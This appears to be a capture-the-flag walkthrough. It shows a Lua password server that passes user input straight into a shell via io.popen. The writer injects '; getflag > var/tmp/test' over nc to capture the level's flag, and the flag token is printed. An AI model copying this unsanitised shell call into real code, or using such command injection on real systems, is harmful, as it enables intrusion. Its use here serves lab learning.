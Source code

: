 1. Lua script at the home

#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end

2. This programs is the code of a server launched on 127.0.0.1:5151

3. To connect to this server, use nc

nc 127.0.0.1 5151

4. The server asks for a password and compare its sha1sum to a hardcoded sha1sum

5. But you can inject a getflag call and store its echoed value in a file

 ; getflag > var/tmp/test

6. cat var/tmp/test

Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
